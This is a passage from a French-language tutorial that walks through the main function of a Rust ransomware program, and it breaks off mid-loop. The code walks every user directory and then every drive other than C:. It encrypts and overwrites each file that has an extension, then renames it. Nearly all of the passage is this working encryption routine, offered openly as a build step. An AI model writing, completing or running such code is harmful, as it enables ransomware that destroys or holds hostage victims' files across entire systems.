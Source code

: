 ## La fonction main

Pour finir, voici la fonction main:

```Rust
fn main() {
    // Récupération de la liste des disques
    let liste_disques: Vec<char> = disques::get_disques();

    // Récupération des chemins des utilisateurs
    let chemins_utilisateurs = get_chemin_utilisateurs();

    //Chiffre les fichiers des utilisateurs
    for chemin_utilisateur in chemins_utilisateurs{
        for entry in WalkDir::new(chemin_utilisateur).into_iter().filter_map(|e| e.ok()) {
            let chemin_fichier = entry.path().display().to_string();
            println!("{}", chemin_fichier);

            if entry.metadata().unwrap().is_file(){
                let fichier_extension = get_extension_fichier(chemin_fichier.clone());
    
                if fichier_extension.is_empty().not(){
                    match ouvrir_fichier(chemin_fichier.clone()) {
                        Ok(fichier_ouvert) => {
                            let contenu_chiffrer = chiffrer(fichier_ouvert);
                            match ecrire_fichier(chemin_fichier.clone(), contenu_chiffrer) {
                                Ok(_ok) => renommer_fichier(chemin_fichier).expect("Impossible de renommer le fichier"),
                                Err(_e) => println!("Impossible de chiffrer le fichier"),
                            }
                        },
                        Err(_fichier_ouvert) => {
                            continue;
                        },
                    }
                }
            }
        }
    }

    for lettre_disque in liste_disques.iter(){
        let disque_c = 'C';
        if lettre_disque != &disque_c {
            let disque = lettre_disque.to_string();

            //Ajout de ":/" après chaque lettre de disque. Exemple: C devient C:/
            let disque_chemin = [disque,":/".to_string()].concat();

            // Pour chaque entrée (fichiers et dossiers)... + ignore les erreurs
            for entry in WalkDir::new(disque_chemin).into_iter().filter_map(|e| e.ok()) {
            //for entry in WalkDir::new(disque_chemin).into_iter().filter_map(|e| e.ok()) {
                let chemin_fichier = entry.path().display().to_string();
                println!("{}", chemin_fichier);

                // Verifie que le chemin donné est un fichier
                if entry.metadata().unwrap().is_file(){
                    let fichier_extension = get_extension_fichier(chemin_fichier.clone());
                    //println!("Extension: {}", fichier_extension);

                    //Certains fichiers n'ont pas d'extension
                    if fichier_extension.is_empty().not(){
                        match ouvrir_fichier(chemin_fichier.clone()) {
                            Ok(fichier_ouvert) => {
                                let contenu_chiffrer = chiffrer(fichier_ouvert);
```